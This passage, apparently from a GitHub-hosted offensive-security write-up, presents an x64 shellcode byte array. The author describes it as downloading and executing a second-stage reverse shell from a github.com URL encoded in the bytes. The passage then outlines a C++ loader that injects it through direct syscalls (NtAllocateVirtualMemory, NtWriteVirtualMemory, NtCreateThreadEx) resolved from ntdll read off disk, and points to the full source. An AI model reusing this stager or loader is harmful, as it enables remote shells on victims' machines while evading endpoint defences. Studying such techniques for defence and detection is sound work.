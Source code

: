 ```cpp
"\x73\x2f\x68\x65\x61\x64\x50\x48\xb8\x61\x72\x2f\x72\x61\x77\x2f\x72\x50\x48\xb8\x65\x72\x74\x68\x65"
"\x72\x61\x64\x50\x48\xb8\x73\x74\x33\x6d\x2f\x75\x6e\x64\x50\x48\xb8\x6f\x6d\x2f\x67\x33\x74\x73\x79"
"\x50\x48\xb8\x67\x69\x74\x68\x75\x62\x2e\x63\x50\x48\xb8\x68\x74\x74\x70\x73\x3a\x2f\x2f\x50\x49\x89"
"\xe0\x48\x89\xf1\x4c\x89\xc2\x4d\x31\xc0\x41\xb8\x47\x00\x00\x00\x41\xff\xd1\x48\x83\xc4\x58\x48\x89"
"\xf9\x48\x89\xf2\x45\x31\xc0\x45\x31\xc9\xc7\x44\x24\x20\x00\x00\x00\x04\x48\xc7\x44\x24\x28\x00\x00"
"\x00\x00\x41\xff\xd6\x48\x83\xc4\x28\x50\x48\x8b\x34\x24\x48\x8b\x0c\x24\x4c\x89\xfa\x41\xb8\x00\x10"
"\x00\x00\x4c\x8d\x4c\x24\xd0\x48\x31\xc0\x41\xff\xd5\x85\xc0\x74\x11\x83\x7c\x24\xd0\x00\x76\x0a\x8b"
"\x4c\x24\xd0\x89\x4c\x24\xc0\xeb\xd3\x48\x89\xf1\x41\xff\xd4\x48\x89\xf9\x41\xff\xd4\xb9\x00\x00\x00"
"\x00\xba\x00\x50\x00\x00\x41\xb8\x00\x30\x00\x00\x41\xb9\x40\x00\x00\x00\x48\x8b\x84\x24\xb0\x00\x00"
"\x00\xff\xd0\x50\x59\x4c\x89\xfa\x41\xb8\xe8\x03\x00\x00\x48\x8b\x84\x24\xa8\x00\x00\x00\xff\xd0\x50"
"\x48\x31\xc9\x48\x31\xd2\x41\x58\x4d\x31\xc9\xc7\x44\x24\x20\x00\x00\x00\x00\x48\xc7\x44\x24\x28\x00"
"\x00\x00\x00\x48\x8b\x84\x24\x88\x00\x00\x00\xff\xd0\x48\x89\xc1\xba\xff\xff\xff\xff\x48\x8b\x9c\x24"
"\xc8\x00\x00\x00\xff\xd3\x31\xc9\x48\x8b\x84\x24\x90\x00\x00\x00\xff\xd0";
```

This is the de facto shellcode that downloads and executes, funny enough, more shellcode (a reverse shell) LOL.  So yeah, we're loading shellcode that downloads and executes more shellcode haha. Now, let's transfer this to our direct syscall based c++ code to load it up and work some magic!

Using our PIC formatted shellcode with Direct Syscalls
-

Once again, I'm not going to go over a lot of detail here.  This is code that uses the direct syscall method for loading APIs via syscalls.  In short, I load `ntdll` from disk and find the syscall number.  We gather the syscall numbers for the following windows APIs

 - void* cleanNtAllocate = ntdll.GetProcAddress("NtAllocateVirtualMemory");
 - void* cleanNtWrite = ntdll.GetProcAddress("NtWriteVirtualMemory");
 - void* cleanNtCreate = ntdll.GetProcAddress("NtCreateThreadEx");

Here's the portion of code that collects the syscall ID from each API:

> syscall stub contents and address + SyscallID

<img width="1577" height="607" alt="image" src="https://github.com/user-attachments/assets/7431d6fd-b1f5-4abb-bf9d-307e14f32c49" />

> allocating 32 bytes for the stub

<img width="658" height="188" alt="image" src="https://github.com/user-attachments/assets/26ca5102-7343-4feb-bf16-8db7802938a9" />

The entire source code, including the ManualNtdll.h and other cpp files can be found in the link below.
